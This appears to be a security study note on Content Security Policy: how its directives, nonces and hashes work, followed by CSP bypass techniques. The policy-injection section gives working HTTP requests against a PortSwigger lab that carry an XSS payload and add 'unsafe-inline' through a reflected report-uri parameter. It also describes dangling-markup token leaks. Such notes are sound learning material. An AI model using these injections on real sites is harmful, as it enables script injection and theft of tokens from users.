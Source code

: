 >[!summary]
>Content Security Policy (CSP) is a detection and prevention mechanism that provides mitigation against attacks such as [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) [^1] and [Clickjacking](Clickjacking.md). CSP is usually implemented in the web server as a return header of the form: `Content-Security-Policy: policy` where policy is a string of policy directives separated by semicolons.

[^1]: https://portswigger.net/web-security/cross-site-scripting/preventing#:~:text=Mitigating%20XSS%20using%20content%20security%20policy%20(CSP)

The CSP provides the client browser with information about permitted resources that a page can load or from which can be embedded in frames.

Some examples:
- `Content-Security-Policy: frame-ancestors 'self';`: CSP whitelists frames to the same domain only
- `Content-Security-Policy: frame-ancestors normal-website.com;`: framing restricted to a named site
- `Content-Security-Policy: script-src 'self';`: scripts are allowed only from the same origin ([SOP](Same-origin%20policy%20(SOP).md))
- `Content-Security-Policy: script-src https://scripts.normal-website.com;`: scripts are allowed only from a specific domain
- `Content-Security-Policy: img-src 'self';`: images are allowed only from the same origin ([SOP](Same-origin%20policy%20(SOP).md))
- `Content-Security-Policy: img-src https://scripts.normal-website.com;`: images are allowed only from a specific domain

In addition to whitelisting specific domains, content security policy also provides two other ways of specifying trusted resources: nonces and hashes:

- The CSP directive can specify a nonce (a random value) and the same value must be used in the tag that loads a script. If the values do not match, then the script will not execute. To be effective as a control, the nonce must be securely generated on each page load and not be guessable by an attacker.
- The CSP directive can specify a hash of the contents of the trusted script. If the hash of the actual script does not match the value specified in the directive, then the script will not execute. If the content of the script ever changes, then you will of course need to update the hash value that is specified in the directive.

>[!warning] CSP and Electron applications
>What does the `script-src 'self'` CSP value mean for `file://` URLs used in Electron App? 
>
>It allows **any file from the file system** to be loaded! [^csp-electron]

[^csp-electron]: [Paul Gerste - Remote Code Execution in Tutanota Desktop Due to Code Flaw](../../Readwise/Articles/Paul%20Gerste%20-%20Remote%20Code%20Execution%20in%20Tutanota%20Desktop%20Due%20to%20Code%20Flaw.md#^ee5e7a)

## CSP Evasion

### Using `img` and dangling markup

It's quite common for a CSP to block resources like `script`. However, many CSPs do allow image requests. This means you can often use `img` elements to make requests to external servers in order to disclose [CSRF tokens](Cross-Site%20Request%20Forgery%20(CSRF).md#CSRF%20tokens), for example.

From the research: [Evading CSP with DOM-based dangling markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)

![XSS + Dangling Markup + CSP bypass + CSRF](HTML%20and%20CSS%20Injection.md#XSS%20+%20Dangling%20Markup%20+%20CSP%20bypass%20+%20CSRF)

### Policy injection

You may encounter a website that reflects input into the actual policy, most likely in a `report-uri` directive. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives.

Default policy (noticed the `token` parameter in `report-uri`):
```http
GET /?search=<img+src+onerror=alert(1)> HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net



HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

The parameter can be controlled and arbitrary policies can be injected:
```http
GET /?search=<img+src+onerror=alert(1)>&token=filler;+foo+'bar' HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=filler; foo 'bar'
```

Normally, it's not possible to overwrite an existing `script-src` directive. However, Chrome recently introduced the `script-src-elem` [^script-src-element] directive, which allows you to control `script` elements, but not events.

[^script-src-element]: https://w3c.github.io/webappsec-csp/#directive-script-src-elem

```html
Content-Security-Policy: script-src-elem 'none'; script-src-attr 'unsafe-inline'

<script>alert("This will be blocked")</script>
<a href="#" onclick="alert('This will be allowed')">test</a>
```

Crucially, this new directive allows you to [overwrite existing `script-src` directives](https://portswigger.net/research/bypassing-csp-with-policy-injection).

```http
GET /?search=<img+src+onerror=alert(1)>&token=filler;+script-src-elem+'none'%3b+script-src-attr+'unsafe-inline' HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=filler; script-src-elem 'none'; script-src-attr 'unsafe-inline'
```

![](../../zzz_res/attachments/CSP-policy-injection.png)

Further examples:
- [eXtra Safe Security layers](../../Play%20ground/CTFs/eXtra%20Safe%20Security%20layers.md)

### Other techniques

- [AngularJS CSP bypass](../Dev,%20scripting%20&%20OS/AngularJS.md#AngularJS%20CSP%20bypass)
- [Ambushed by AngularJS: a hidden CSP bypass in Piwik PRO](https://portswigger.net/research/ambushed-by-angularjs-a-hidden-csp-bypass-in-piwik-pro)
- [Bypass CSP using MIME sniffing](MIME%20sniffing.md#Bypass%20CSP%20using%20MIME%20sniffing)
- Bypass CSP using [JSONP](JSONP%20vulnerabilities.md#JSON%20with%20Padding%20(JSONP)) as a gadget [^CSP-JSONP]
- Misconfigured CSP [^csp-in-the-wild]

[^csp-in-the-wild]: [Misconfigured CSP In the wild](../../Readwise/Articles/Gareth%20Heyes%20-%20Using%20Form%20Hijacking%20to%20Bypass%20CSP.md#In%20the%20wild), Gareth Heyes - Using Form Hijacking to Bypass CSP

[^CSP-JSONP]: [Riding the Waves of API Versioning Unmasking a Stored XSS Vulnerability, CSP Bypass Using YouTube OEmbed](../../Readwise/Articles/SMHTahsin33%20-%20Riding%20the%20Waves%20of%20API%20Versioning%20Unmasking%20a%20Stored%20XSS%20Vulnerability,%20CSP%20Bypass%20Using%20YouTube%20OEmbed.md), SMHTahsin33